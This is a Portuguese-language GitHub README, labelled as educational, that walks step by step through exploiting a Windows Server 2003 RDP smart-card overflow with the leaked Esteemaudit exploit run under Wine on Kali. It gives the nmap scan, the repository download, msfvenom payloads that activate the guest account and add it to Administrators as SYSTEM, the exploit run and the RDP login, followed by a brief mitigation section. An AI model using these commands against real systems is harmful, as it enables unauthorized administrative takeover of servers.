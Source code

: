 # Esteemaudit (without Metasploit) - A Windows 2003 RDP Zero Day Exploit

Explorando Remote Desktop do Windows Server 2003 com o exploit Esteemaudit (sem Metasploit) e obtendo RCE.

**REPOSITÓRIO CRIADO PARA FINS DIDÁTICOS!**

Esta é uma portabilidade do Esteemaudit RDP Exploit vazado do Equationgroup (NSA). A vulnerabilidade explorada por este ataque está relacionada à autenticação de Smart Card, usada ao fazer logon no sistema por meio do serviço RDP. Os sistemas afetados são Windows Server 2003 SP1, SP2 e Windows XP SP0, SP1, SP3.

O logon do Smart Card é suportado por todas as versões do Windows após o Windows 2000. Ele contém um chip que armazena as informações de logon do usuário, juntamente com a chave privada e a chave de certificado pública. Ao inseri-lo em um leitor de cartão inteligente conectado ao computador e digitar um número de identificação pessoal (PIN), o usuário pode fazer login com segurança no sistema Windows. Quando o logon ocorre por meio do serviço RDP, a máquina remota que executa o serviço RDP se comunica com o computador local, que se conecta ao leitor de cartão inteligente, solicita as informações no cartão inteligente e verifica o PIN.

Esta vulnerabilidade está localizada na função "MyCPAcquireContext()" em "gpkcsp.dll", que é chamada por "winlogon.exe" na nova sessão do Windows. A função "MyCPAcquireContext()" é usada para configurar o contexto do Windows Cryptographic Service Providers (CSP). Ele lê os dados do Smart Card e define o valor dos campos da estrutura de contexto CSP. Se os dados lidos do cartão inteligente forem muito grandes, o buffer de campo usado pela estrutura de contexto CSP estoura e sobrescreve outro campo, permitindo a execução de código arbitrário.

**Para realizar o teste foi utilizado o Kali Linux 2022.3 como máquina atacante e Windows Server 2003 (x86) como máquina alvo.**

Identifique as possíveis vulnerabilidades no Remote Desktop do Windows Server:
```
nmap -v --script vuln -p3389 -Pn 172.16.1.110
```
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
```

**Sabendo que é vulnerável, vamos preparar o Kali para realizar a exploração.**

No Kali, instale as dependências:
```
dpkg --add-architecture i386
apt-get update && apt-get install wine32
```

Realize a instalação dos pacotes libwine, wine, wine32 e winetricks
```
apt-get install libwine wine wine32 winetricks
```

Após a instalação certifique-se que o **Wine** esteja instalado, em seguida execute o comando **exit** para sair do **Wine**.
```
wine cmd
Microsoft Windows 6.1.7601 (4.0.2)

Z:\>exit
```

Baixe o exploit e copie os arquivos:
```
git clone https://github.com/caique-garbim/MS12-020_Esteemaudit
cd Esteemaudit-without-Metasploit/
cp -r esteemaudit/ /usr/share/
cd /usr/share/esteemaudit
```

No arquivo **Esteemaudit-2.1.0.xml**, na linha nº 5 é necessário informar o IP do Windows Server e a porta TCP do serviço RDP (3389 é o padrão):

![image](https://user-images.githubusercontent.com/76706456/186801171-388f3d39-a25c-412b-b868-d70aa20815ba.png)

**Vamos gerar os payloads com os comandos que desejamos executar no Windows Server:**

Neste exemplo, iremos habilitar o usuário convidado, gerando o seguinte payload:
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="net user guest /active:yes" -f dll > /root/.wine/drive_c/shell.dll
```
*(Sabendo que o comando será executado como NT AUTHORITY\SYSTEM podemos realizar tarefas administrativas)*

Em seguida iremos envia-lo para o servidor:
```
wine Esteemaudit-2.1.0.exe
```

![image](https://user-images.githubusercontent.com/76706456/186801388-f88fcc11-938e-4cba-be60-2b56e2a821ff.png)

![image](https://user-images.githubusercontent.com/76706456/186801418-a2aea451-eb16-4fe8-a883-5a579e0ea2a7.png)

*(No final da execução retornou um erro, porém o comando foi executado com sucesso)*

Em seguida vamos adiciona-lo ao grupo de Administradores, gerando o seguinte payload:
```
msfvenom -a x86 --platform Windows -p windows/exec CMD='net localgroup "Administrators" guest /add' -f dll > /root/.wine/drive_c/shell.dll
```

Em seguida iremos envia-lo para o servidor:
```
wine Esteemaudit-2.1.0.exe
```

![image](https://user-images.githubusercontent.com/76706456/186801388-f88fcc11-938e-4cba-be60-2b56e2a821ff.png)

![image](https://user-images.githubusercontent.com/76706456/186801418-a2aea451-eb16-4fe8-a883-5a579e0ea2a7.png)

*(No final da execução retornou um erro, porém o comando foi executado com sucesso)*

Por fim, vamos nos conectar ao RDP utilizando o usuário guest:
```
rdesktop 172.16.1.110 -u guest -p ''
```

![image](https://user-images.githubusercontent.com/76706456/186801609-9c57de87-1d2c-42b5-9a74-c7e44c0d178f.png)

# Como mitigar

1 - Execute gpedit.msc

2 - Vá em Computer Configuration\Administrative Templates\Windows Components\Terminal Services\Client/Server data redirection\

3 - Habilite "Do not allow Smart Card device redirection"

4 - Reinicie o servidor

# Referências

https://github.com/BlackMathIT/Esteemaudit-Metasploit

https://www.fortinet.com/blog/threat-research/deep-analysis-of-esteemaudit

#
Tags: CVE-2012-0002, MS12-020, Remote Desktop, Remote Code Execution, Vulnerability, RCE, RDP, Exploit, Exploit RDP, Windows, Server, 2003, Exploit RDP Windows Server 2003, Esteemaudit, Esteemaudit sem metasploit, without metasploit, Exploração do Windows Server 2003 com Esteemaudit sem metasploit
